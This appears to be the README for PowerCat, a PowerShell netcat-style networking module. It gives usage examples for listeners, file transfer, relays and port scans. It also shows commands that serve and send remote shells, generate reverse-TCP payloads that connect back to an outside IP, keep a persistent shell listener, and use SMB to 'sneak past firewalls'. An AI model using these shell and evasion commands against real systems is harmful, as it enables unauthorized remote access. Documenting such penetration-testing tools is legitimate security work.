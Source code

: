PowerCat
========
######A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat.
Inspired by: https://github.com/besimorhino/powercat
Installation
------------
PowerCat is packaged as a PowerShell module.  You must import the module to use its functions.
###
```powershell
    # Import the functions via the psd1 file:
    Import-Module PowerCat.psd1
```
### Functions & Parameters:
```powershell    
    Start-PowerCat # Starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
	-PipeName       # Name of pipe to listen on.
	
    -Relay          # Format: "<Mode>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
	Connect-PowerCat # Connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
	-RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
	-PipeName       # Name of pipe to connect to.
	
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
###
```powershell
    # Generate a reverse tcp payload that connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a tcp payload that listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
```
Exiting
----------
In most cases, the ESC key can be used to gracefully exit PowerCat.
